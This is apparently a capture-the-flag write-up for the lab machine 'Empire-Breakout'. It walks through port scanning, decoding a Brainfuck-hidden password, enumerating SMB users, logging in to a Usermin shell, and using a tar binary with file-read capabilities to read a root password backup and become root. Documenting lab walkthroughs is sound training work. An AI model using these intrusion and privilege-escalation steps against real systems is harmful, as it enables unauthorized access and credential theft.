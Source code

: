 ### Empire-Breakout

### Difficulty-Easy

Start first with a port scan
```
PORT      STATE SERVICE     REASON  VERSION
80/tcp    open  http        syn-ack Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
139/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
445/tcp   open  netbios-ssn syn-ack Samba smbd 4.6.2
20000/tcp open  http        syn-ack MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 599F1D15E0C8BCAE078BE87529916D7A

Host script results:
|_clock-skew: 0s
| smb2-time: 
|   date: 2023-01-25T14:53:04
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 36348/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 60233/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44332/udp): CLEAN (Timeout)
|   Check 4 (port 45931/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
```
We see there are 2 webservers and an smb server running on the machine.

Let's take a look at port 80.
When inspecting the page source, scrolling to the bottom gives us this.

![Screenshot from 2023-01-25 18-02-58](https://user-images.githubusercontent.com/66115581/214630672-e7364c74-ec30-47f0-9292-627d907586eb.png)

You can decode that using this URL https://www.dcode.fr/brainfuck-language.

![Screenshot from 2023-01-25 18-05-10](https://user-images.githubusercontent.com/66115581/214631215-a97d10a6-35a9-4fb9-b160-ad042baefb1e.png)

The output is at the top left, .2uqPEfj3D<P'a-3
Save that for future reference.

Now let's inspect port 20000
It's running Usermin interface. Nice!!! Remembering the ouput from the cipher we decoded, we can use that as a password but all we need is a username.
We need to run enum4linux on the server.
```
=================( Users on 192.168.153.238 via RID cycling (RIDS: 500-550,1000-1050) )=================


[I] Found new SID: 
S-1-22-1

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[I] Found new SID: 
S-1-5-32

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-5-21-1683874020-4104641535-3793993001 and logon username '', password ''

S-1-5-21-1683874020-4104641535-3793993001-501 BREAKOUT\nobody (Local User)
S-1-5-21-1683874020-4104641535-3793993001-513 BREAKOUT\None (Domain Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\cyber (Local User)

 ==============================( Getting printer info for 192.168.153.238 )==============================

No printers returned.


enum4linux complete on Wed Jan 25 17:23:12 2023
```
Notice the user found at the bottom, 'cyber', and now we can try to login with that user.
Viola!!! We are in.

![Screenshot from 2023-01-25 18-19-15](https://user-images.githubusercontent.com/66115581/214634992-a76ebfd4-17bc-45a0-bad7-38c6a3300435.png)

Switching to the Usermin tab, navigate to the login in the sidebar and click on command shell. Boom you can execute any commands you wish. you can use this URL
to generate reverse shell commands https://www.revshells.com/.

In your shell you can read the local.txt file.
Next, I ran linpeas.sh on the machine and found this

```
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	000001ffffffffff
CapAmb:	0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	000001ffffffffff
CapAmb:	0000000000000000

Files with capabilities (limited to 50):
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
```

The tar binary has been assigned capabilities to read any file. We can use it to read some advantageous files for us. 
Looking at the /var/backups directory we see this.
```
cyber@breakout:~$ cd /var/backups
cd /var/backups
cyber@breakout:/var/backups$ ls -la
ls -la
total 484
drwxr-xr-x  2 root root   4096 Dec  8 06:25 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Dec  8 06:25 alternatives.tar.0
-rw-r--r--  1 root root  12674 Nov 17 03:45 apt.extended_states.0
-rw-r--r--  1 root root   1467 Oct 19  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      0 Dec  8 06:25 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$ 
```
One file stands out there, '.old_pass.bak'. 
In the home directory, run this command to compress the file.
```
cyber@breakout:~$ ./tar -cf pass.tar /var/backups/.old_pass.bak
./tar -cf pass.tar /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
```
Then run this
```
yber@breakout:~$ tar -xf pass.tar
tar -xf pass.tar
cyber@breakout:~$ ls -la
ls -la
total 1344
drwxr-xr-x  9 cyber cyber   4096 Jan 25 13:11 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  3 cyber cyber   4096 Jan 25 12:50 .gnupg
-rwxr-xr-x  1 cyber cyber 776785 Jun 30  2022 linpeas.sh
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 root  root      33 Jan 25 12:17 local.txt
-rw-r--r--  1 cyber cyber  10240 Jan 25 13:10 pass.tar
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Oct 20  2021 .tmp
drwx------ 16 cyber cyber   4096 Oct 19  2021 .usermin
drwxr-xr-x  3 cyber cyber   4096 Jan 25 13:11 var
```
Navigate to the var directory, and read the .old_pass.bak to get the root password.
```
cyber@breakout:~$ cd var/backups
cd var/backups
cyber@breakout:~/var/backups$ cat .old_pass.bak
cat .old_pass.bak
Ts&4&YurgtRX(=~h
cyber@breakout:~/var/backups$ su root
su root
Password: Ts&4&YurgtRX(=~h

root@breakout:/home/cyber/var/backups# cd /root
cd /root
root@breakout:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# whoami
whoami
root
root@breakout:~# cat proof.txt
cat proof.txt
9df7e481a46456f6558e0745ab19323f
root@breakout:~
```
And boom we're root.
